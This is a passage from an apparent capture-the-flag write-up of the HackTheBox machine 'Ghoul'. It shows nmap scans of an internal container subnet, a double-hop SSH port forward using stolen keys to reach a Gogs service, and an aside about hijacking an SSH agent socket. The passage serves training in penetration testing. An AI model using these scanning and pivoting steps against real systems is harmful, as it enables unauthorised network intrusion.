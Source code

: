 If I had root access on the container I could get access to the ssh agent socket and hijack the private key but I don't have root yet.

Next I scanned the subnet on that other network interface to see if I could find any other hosts there:

```
kaneki_pub@kaneki-pc:~$ ./nmap -sP 172.18.0.0/16

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2019-05-07 03:08 GMT
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for Aogiri (172.18.0.1)
Host is up (0.00082s latency).
Nmap scan report for cuff_web_1.cuff_default (172.18.0.2)
Host is up (0.00068s latency).
Nmap scan report for kaneki-pc (172.18.0.200)
Host is up (0.00037s latency).

[...]

kaneki_pub@kaneki-pc:~$ ./nmap -p- 172.18.0.2

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2019-05-07 03:09 GMT
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for cuff_web_1.cuff_default (172.18.0.2)
Host is up (0.00020s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  unknown
```

I found `172.18.0.2` running both SSH and some other service on port 3000. At this point it's probably a good idea to start setting up some port forwarding. With the following I can access port 3000 through a double hop:

```
ssh -L 2222:172.20.0.150:22 -i root.key root@10.10.10.101
ssh -i kaneki.backup -p 2222 -L 3000:172.18.0.2:3000 kaneki_pub@127.0.0.1
```

### Exploiting Gogs on the 3rd container

On port 3000 we find a Gogs application running:

![](/assets/images/htb-writeup-ghoul/port3000.png)
